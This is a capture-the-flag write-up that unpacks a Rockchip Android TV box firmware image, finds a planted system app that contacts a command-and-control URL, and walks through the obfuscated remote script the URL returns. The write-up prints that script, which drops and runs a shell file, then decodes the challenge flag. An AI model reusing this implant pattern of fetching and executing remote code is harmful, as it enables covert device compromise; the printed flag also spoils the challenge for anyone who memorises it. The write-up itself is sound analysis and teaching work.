








# TVBox Challenge

First we download the `RK3318_userdebug_H96_Max_V11_11_20221109.1757.img` firmware image. 

Such firmware files are usually a pack of other images files, thus first we have to find a way to unpack them.
By searching online, we can find that this image is probably for a Rockchip-based Android TV box.

Let's try to binwalk the image, to see if it can detect any files:
```
thanos@potato:~$ binwalk ./RK3318_userdebug_H96_Max_V11_11_20221109.1757.img

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
896620        0xDAE6C         SHA256 hash constants, little endian
924489        0xE1B49         Unix path: /lib/libtomcrypt/src/tee_ltc_provider.c
2993772       0x2DAE6C        SHA256 hash constants, little endian
3021641       0x2E1B49        Unix path: /lib/libtomcrypt/src/tee_ltc_provider.c
5195908       0x4F4884        CRC32 polynomial table, little endian
5295467       0x50CD6B        Android bootimg, kernel size: 1919249152 bytes, kernel addr: 0x5F6C656E, ramdisk size: 1919181921 bytes, ramdisk addr: 0x5700635F, product name: ""
5513396       0x5420B4        device tree image (dtb)
6244484       0x5F4884        CRC32 polynomial table, little endian
6344043       0x60CD6B        Android bootimg, kernel size: 1919249152 bytes, kernel addr: 0x5F6C656E, ramdisk size: 1919181921 bytes, ramdisk addr: 0x5700635F, product name: ""
6561972       0x6420B4        device tree image (dtb)
7293060       0x6F4884        CRC32 polynomial table, little endian
7392619       0x70CD6B        Android bootimg, kernel size: 1919249152 bytes, kernel addr: 0x5F6C656E, ramdisk size: 1919181921 bytes, ramdisk addr: 0x5700635F, product name: ""
7610548       0x7420B4        device tree image (dtb)
8341636       0x7F4884        CRC32 polynomial table, little endian
8441195       0x80CD6B        Android bootimg, kernel size: 1919249152 bytes, kernel addr: 0x5F6C656E, ramdisk size: 1919181921 bytes, ramdisk addr: 0x5700635F, product name: ""
8659124       0x8420B4        device tree image (dtb)
8827316       0x86B1B4        Android bootimg, kernel size: 31846408 bytes, kernel addr: 0x10008000, ramdisk size: 837703 bytes, ramdisk addr: 0x11000000, product name: ""
9039028       0x89ECB4        SHA256 hash constants, little endian
24717748      0x17929B4       ELF, 64-bit LSB shared object, version 1 (SYSV)
24724532      0x1794434       SHA256 hash constants, little endian
24741756      0x179877C       gzip compressed data, maximum compression, from Unix, last modified: 1970-01-01 00:00:00 (null date)
24777523      0x17A1333       xz compressed data
28300852      0x1AFD634       CRC32 polynomial table, little endian
28532903      0x1B360A7       Intel x86 or x64 microcode, sig 0x01010008, pf_mask 0x18022038, 2038-18-02, rev 0x41385200, size 1
28532919      0x1B360B7       Intel x86 or x64 microcode, sig 0x01010008, pf_mask 0x20022038, 2038-18-02, rev 0x41384200, size 1
28925215      0x1B95D1F       LZMA compressed data, properties: 0x65, dictionary size: 0 bytes, uncompressed size: 4096 bytes
29453842      0x1C16E12       Intel x86 or x64 microcode, sig 0x00000008, pf_mask 0x2000000, 2000-08-08, size 256
29453870      0x1C16E2E       Intel x86 or x64 microcode, pf_mask 0x2000000, 2000-10-08, rev 0x0100, size 256
29465650      0x1C19C32       Intel x86 or x64 microcode, sig 0x00000008, pf_mask 0x2000000, 2000-08-08, size 256
29465678      0x1C19C4E       Intel x86 or x64 microcode, pf_mask 0x2000000, 2000-10-08, rev 0x0100, size 256
30083406      0x1CB094E       LZMA compressed data, properties: 0x6C, dictionary size: 0 bytes, uncompressed size: 3840 bytes
30123876      0x1CBA764       Certificate in DER format (x509 v3), header length: 4, sequence length: 676
30265337      0x1CDCFF9       Certificate in DER format (x509 v3), header length: 4, sequence length: 216
...
```

Ok... too many results. By searching online for a way to unpack the image, there are many tools, 2 of them are `rkImageMaker` and `afptool`.

Lets download `rkImageMaker` to unpack the image:
```
wget https://github.com/khadas/android_RKTools/raw/refs/heads/khadas-edge-nougat-v1.0/linux/Linux_Pack_Firmware/rockdev/rkImageMaker
```

And unpack the image (in the examples bellow qemu was used to support x86 binary in Windows Linux Subsystem):
```
thanos@potato:~$ mkdir output
thanos@potato:~$ qemu-i386-static ./rkImageMaker -unpack ./RK3318_userdebug_H96_Max_V11_11_20221109.1757.img output
```

And we got:
- output/boot.bin
- output/firmware.img


Now we can download and use `afptool`  in a similar way as `rkImageMaker`:
```
wget https://github.com/khadas/android_RKTools/raw/refs/heads/khadas-edge-nougat-v1.0/linux/Linux_Pack_Firmware/rockdev/afptool
qemu-i386-static ./afptool -unpack ./output/firmware.img ./output
```

And we got:
- output/Image/baseparameter.img
- output/Image/boot.img
- output/Image/dtbo.img
- output/Image/misc.img
- output/Image/recovery.img
- output/Image/super.img
- output/Image/trust.img
- output/Image/uboot.img
- output/Image/vbmeta.img

We now can open the `super.img` (using 7z) which holds the main partitions for the rootfs of the Android image.



Inside the `super.img/system.ext` we can find most of the device files.

The first thing we can do is inspect the apps inside `/system/priv-app/`, where we can spot an application that was inserted in a different date after the other:


After decompiling the apk and searching the files, we can see the code that seems to comunicate with a Command & Control server at `app-release.apk/sources/com/app/tvupdater/C2Service.java`.



Here are some interesting parts of the code:
```java
public class C2Service extends Service {
    private static final String C2_SERVER = "5JjZSRDTSp0L3Fmcv02bj5ibpJWZ0NXYw9yL6MHc0RHa";
    private static final String CHANNEL_ID = "update_channel";
    private static final String TAG = "C2Service";
    // ...
    private String decodeC2Url(String str) {
        return new String(Base64.decode(new StringBuilder(str).reverse().toString(), 0));
    }
    // ...
}
```

We can see that an encoded string is decoded and a request is launched towards the a server. We can decode the string (example using JavaScript):
```javascript
atob(('5JjZSRDTSp0L3Fmcv02bj5ibpJWZ0NXYw9yL6MHc0RHa').split("").reverse().join(""))
```

And we get the URL of the server:
```
https://pastebin.com/raw/JRL4Rf2y
```

The server responds with an obfuscated JavaScript code:
```javascript
var _0x1ff259 = _0x2b70;

function _0x2b70(_0x1c8997, _0x2ac5b0) { var _0x2cee27 = _0x2cee(); return _0x2b70 = function(_0x2b707f, _0x139942) { _0x2b707f = _0x2b707f - 0x187; var _0x10b11c = _0x2cee27[_0x2b707f]; return _0x10b11c; }, _0x2b70(_0x1c8997, _0x2ac5b0); }(function(_0x8a5f1e, _0x576ecf) { var _0x2b44eb = _0x2b70,
        _0x26ad16 = _0x8a5f1e(); while (!![]) { try { var _0x12bc5e = parseInt(_0x2b44eb(0x18e)) / 0x1 + -parseInt(_0x2b44eb(0x1ba)) / 0x2 * (parseInt(_0x2b44eb(0x1b3)) / 0x3) + -parseInt(_0x2b44eb(0x1b4)) / 0x4 * (parseInt(_0x2b44eb(0x19c)) / 0x5) + -parseInt(_0x2b44eb(0x18c)) / 0x6 * (parseInt(_0x2b44eb(0x192)) / 0x7) + parseInt(_0x2b44eb(0x1b9)) / 0x8 + parseInt(_0x2b44eb(0x18a)) / 0x9 + -parseInt(_0x2b44eb(0x19d)) / 0xa * (-parseInt(_0x2b44eb(0x1b6)) / 0xb); if (_0x12bc5e === _0x576ecf) break;
            else _0x26ad16['push'](_0x26ad16['shift']()); } catch (_0x25d57f) { _0x26ad16['push'](_0x26ad16['shift']()); } } }(_0x2cee, 0x37010));
var Runtime = Packages[_0x1ff259(0x194)][_0x1ff259(0x18d)][_0x1ff259(0x190)],
    File = Packages[_0x1ff259(0x194)]['io']['File'],
    FileWriter = Packages[_0x1ff259(0x194)]['io'][_0x1ff259(0x195)],
    Log = Packages['android']['util']['Log'],
    cache = androidContext['getExternalCacheDir'](),
    dumpFD = new File(cache, 'systeminfo_dump.txt'),
    fw = new FileWriter(dumpFD);
fw[_0x1ff259(0x1b8)](_0x1ff259(0x191) + android['os'][_0x1ff259(0x19a)][_0x1ff259(0x1af)] + '\x0a' + _0x1ff259(0x1b2) + android['os'][_0x1ff259(0x19a)][_0x1ff259(0x1a7)] + '\x0a' + _0x1ff259(0x1a4) + android['os'][_0x1ff259(0x19a)][_0x1ff259(0x1a6)] + '\x0a' + 'android.os.Build.HARDWARE=' + android['os'][_0x1ff259(0x19a)][_0x1ff259(0x1b5)] + '\x0a' + _0x1ff259(0x18b) + android['os']['Build']['PRODUCT'] + '\x0a' + _0x1ff259(0x1ab) + android['os'][_0x1ff259(0x19a)][_0x1ff259(0x18f)] + '\x0a' + ''), fw['close'](), Log['i'](_0x1ff259(0x188), _0x1ff259(0x1a0));
var f = function(_0xbcbaf1, _0x47b8f9) { var _0x474218 = _0x1ff259,
            _0x3b6224 = []; for (var _0x12cae5 = 0x0; _0x12cae5 < _0xbcbaf1[_0x474218(0x1a5)]; _0x12cae5++) { var _0x6727f8 = _0x47b8f9[_0x474218(0x1ad)](_0x12cae5 % _0x47b8f9['length']);
            _0x3b6224[_0x474218(0x19e)](String['fromCharCode'](_0xbcbaf1[_0x12cae5] ^ _0x6727f8)); } return _0x3b6224[_0x474218(0x1bb)](''); }(_0x1ff259(0x1b7)['match'](/.{1,2}/g)[_0x1ff259(0x1a9)](function(_0x14ba8d) { return parseInt(_0x14ba8d, 0x10); }), android['os'][_0x1ff259(0x19a)][_0x1ff259(0x1a6)] + android['os'][_0x1ff259(0x19a)][_0x1ff259(0x1a7)]),
    scriptFile = new File(cache, 'payload.sh');
try { var fw = new FileWriter(scriptFile);
    fw[_0x1ff259(0x1b8)]('#!/system/bin/sh\x0a'), fw[_0x1ff259(0x1b8)](_0x1ff259(0x193) + f + _0x1ff259(0x198)), fw[_0x1ff259(0x19b)](), scriptFile[_0x1ff259(0x1a2)](!![], ![]), Log['i'](_0x1ff259(0x1a1), _0x1ff259(0x197) + scriptFile[_0x1ff259(0x1ae)]()); } catch (_0x568576) { Log['e'](_0x1ff259(0x1a1), _0x1ff259(0x196) + _0x568576); }

function _0x2cee() { var _0x57321b = ['6545xeHlUP', 'echo\x20\x27', 'java', 'FileWriter', 'Error\x20writing\x20script:\x20', 'Script\x20written\x20to:\x20', '\x27\x20>\x20/sdcard/flag.txt\x0a', 'Script\x20executed\x20with\x20exit\x20code\x20', 'Build', 'close', '19955pTTTus', '156920KTsIQI', 'push', 'readLine', 'Hello!\x20From\x20server.', 'C2Script', 'setExecutable', 'getInputStream', 'android.os.Build.DEVICE=', 'length', 'DEVICE', 'MODEL', 'BufferedReader', 'map', 'exitValue', 'android.os.Build.TYPE=', 'Error\x20running\x20script:\x20', 'charCodeAt', 'getAbsolutePath', 'BOARD', '/system/bin/sh\x20', 'Output:\x20', 'android.os.Build.MODEL=', '93894TXXvUs', '424iIyiiH', 'HARDWARE', '176cOtnyk', '331c56405d553a434f3d0b6a75243e341b1c654204141e026c765d09532c4b175a7a1a790f272a06104c522c5c5c5618150d0d59', 'write', '955520HJYxAn', '20bkRSIM', 'join', 'InputStreamReader', 'TvUpdater', 'getRuntime', '1969416CwRaXL', 'android.os.Build.PRODUCT=', '66JdRpsW', 'lang', '382271PmOMtv', 'TYPE', 'Runtime', 'android.os.Build.BOARD='];
    _0x2cee = function() { return _0x57321b; }; return _0x2cee(); }
try { var runtime = Runtime[_0x1ff259(0x189)](),
        process = runtime['exec'](_0x1ff259(0x1b0) + scriptFile['getAbsolutePath']()),
        is = process[_0x1ff259(0x1a3)](),
        isr = new java['io'][(_0x1ff259(0x187))](is),
        br = new java['io'][(_0x1ff259(0x1a8))](isr),
        line; while ((line = br[_0x1ff259(0x19f)]()) != null) { Log['i'](_0x1ff259(0x1a1), _0x1ff259(0x1b1) + line); } br[_0x1ff259(0x19b)](), process['waitFor'](), Log['i'](_0x1ff259(0x1a1), _0x1ff259(0x199) + process[_0x1ff259(0x1aa)]()); } catch (_0x4708ef) { Log['e']('C2Script', _0x1ff259(0x1ac) + _0x4708ef); }
```

We can use an online deobfuscator (example using `https://obf-io.deobfuscate.io/`):
```javascript
var Runtime = Packages.java.lang.Runtime;
var File = Packages.java.io.File;
var FileWriter = Packages.java.io.FileWriter;
var Log = Packages.android.util.Log;
var cache = androidContext.getExternalCacheDir();
var dumpFD = new File(cache, 'systeminfo_dump.txt');
var fw = new FileWriter(dumpFD);
fw.write("android.os.Build.BOARD=" + android.os.Build.BOARD + "\n" + "android.os.Build.MODEL=" + android.os.Build.MODEL + "\n" + "android.os.Build.DEVICE=" + android.os.Build.DEVICE + "\n" + 'android.os.Build.HARDWARE=' + android.os.Build.HARDWARE + "\n" + "android.os.Build.PRODUCT=" + android.os.Build.PRODUCT + "\n" + "android.os.Build.TYPE=" + android.os.Build.TYPE + "\n" + '');
fw.close();
Log.i("TvUpdater", "Hello! From server.");
var f = function (_0xbcbaf1, _0x47b8f9) {
  var _0x3b6224 = [];
  for (var _0x12cae5 = 0x0; _0x12cae5 < _0xbcbaf1.length; _0x12cae5++) {
    var _0x6727f8 = _0x47b8f9.charCodeAt(_0x12cae5 % _0x47b8f9.length);
    _0x3b6224.push(String.fromCharCode(_0xbcbaf1[_0x12cae5] ^ _0x6727f8));
  }
  return _0x3b6224.join('');
}("331c56405d553a434f3d0b6a75243e341b1c654204141e026c765d09532c4b175a7a1a790f272a06104c522c5c5c5618150d0d59".match(/.{1,2}/g).map(function (_0x14ba8d) {
  return parseInt(_0x14ba8d, 0x10);
}), android.os.Build.DEVICE + android.os.Build.MODEL);
var scriptFile = new File(cache, 'payload.sh');
try {
  var fw = new FileWriter(scriptFile);
  fw.write("#!/system/bin/sh\n");
  fw.write("echo '" + f + "' > /sdcard/flag.txt\n");
  fw.close();
  scriptFile.setExecutable(true, false);
  Log.i("C2Script", "Script written to: " + scriptFile.getAbsolutePath());
} catch (_0x568576) {
  Log.e("C2Script", "Error writing script: " + _0x568576);
}
try {
  var runtime = Runtime.getRuntime();
  var process = runtime.exec("/system/bin/sh " + scriptFile.getAbsolutePath());
  var is = process.getInputStream();
  var isr = new java.io.InputStreamReader(is);
  var br = new java.io.BufferedReader(isr);
  var line;
  while ((line = br.readLine()) != null) {
    Log.i("C2Script", "Output: " + line);
  }
  br.close();
  process.waitFor();
  Log.i("C2Script", "Script executed with exit code " + process.exitValue());
} catch (_0x4708ef) {
  Log.e('C2Script', "Error running script: " + _0x4708ef);
}
```

We can see from the code that the flag is probably located inside the variable `f`:
```javascript
fw.write("echo '" + f + "' > /sdcard/flag.txt\n");
``` 

But this variable is decoded using XOR (cleaned up code):
```javascript
var f = function (a, b) {
  var r = [];
  for (var i = 0x0; i < a.length; i++) {
    var y = b.charCodeAt(i % b.length);
    r.push(String.fromCharCode(a[i] ^ y));
  }
  return r.join('');
}("331c56405d553a434f3d0b6a75243e341b1c654204141e026c765d09532c4b175a7a1a790f272a06104c522c5c5c5618150d0d59".match(/.{1,2}/g).map(function (x) {
  return parseInt(x, 0x10);
}), android.os.Build.DEVICE + android.os.Build.MODEL);
```

It seems that the code is using `android.os.Build.DEVICE + android.os.Build.MODEL` as a key to XOR decrypt the flag, thus we have to find the device's name and model.

Going back to the `system.ext` files, we can inspect the `/system/build.prop` file to gather the device info:



Identified values:
```
android.os.Build.DEVICE --> rk3328_box
android.os.Build.MODEL --> H96_Max_V11
```

Now we can update the code to get the flag:
```javascript
(function (a, b) {
  var r = [];
  for (var i = 0x0; i < a.length; i++) {
    var y = b.charCodeAt(i % b.length);
    r.push(String.fromCharCode(a[i] ^ y));
  }
  return r.join('');
})("331c56405d553a434f3d0b6a75243e341b1c654204141e026c765d09532c4b175a7a1a790f272a06104c522c5c5c5618150d0d59".match(/.{1,2}/g).map(function (x) {
  return parseInt(x, 0x10);
}), 'rk3328_box' + 'H96_Max_V11')
```

```
Awesome! ECSC{sUcC3s5fu1_DeV1C3_cLE4n_uP!} Good Job!
```

## Device photos








